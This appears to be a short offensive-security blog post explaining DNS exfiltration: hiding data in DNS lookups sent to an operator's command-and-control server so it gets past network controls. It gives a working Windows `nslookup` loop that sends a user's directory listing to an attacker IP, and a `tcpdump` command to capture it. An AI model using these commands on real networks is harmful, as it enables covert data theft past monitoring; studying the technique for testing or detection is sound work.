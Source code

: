 ```yaml
---
layout: post
title: DNS Exfiltration
---
```


In restrictive environments basic TCP communication to and from your C2 server can arouse suspicion or be blocked. one of the ways operators keep things below the radar is to communicate over accepted protocols like ICMP or DNS. DNS exfiltration might sound intimidating to the uninitiated but it can be dead simple. 

DNS, put broadly, matches names with IP addresses. When we query DNS we are asking "hey, DNS Server, what's the IP address for google.com?" Our DNS server responds with "Sure, let me look that up for you... 172.217.10.142."

![](https://braaaax.github.io/braaaax.github.io/images/nslookup.png)

DNS exfiltration mimics this exchange, which computers on all networks do routinely navigating to websites and shares etc.,to pass data out of the network. Instead we ask "hey, DNS Server, which is actually my C2 server, what is the IP address of DATA-TO-EXFILTRATE?"

In a typical scenario we are querying our "DNS Server" kali box from a Windows machine we can set up a simple interaction like so:

`nslookup DATA Destination-IP`

Then receive our data, DNS runs on port 53 typically, with tcpdump like so:

`tcpdump -lvi eth0 "udp port 53"`
 
`-l` line buffered

`-v` verbose

`-i` interface

`"udp port 53"` port and protocol

So let's see it in action by exfiltrating directory information from a Windows 10 box to our kali box.
We'll loop over the items in our target directory and send a DNS query for each one like so:

on Windows:

`for /f %i in ('dir /b \users\brax') do nslookup %i IP`

![](https://braaaax.github.io/braaaax.github.io/images/dns-exfiltration.png)

on kali:

`tcpdump -lvi tap0 "udp port 53" 2>/dev/null`

![](https://braaaax.github.io/braaaax.github.io/images/kali-dns-server.png)

Ugly right? But we've successfully smuggled our data! We can take a look at the output and clean it up with some simple bashisms. 

![](https://braaaax.github.io/braaaax.github.io/images/dns-exfiltration-cleanedup.png)

still not perfect, but there you have it basic DNS exfiltration.
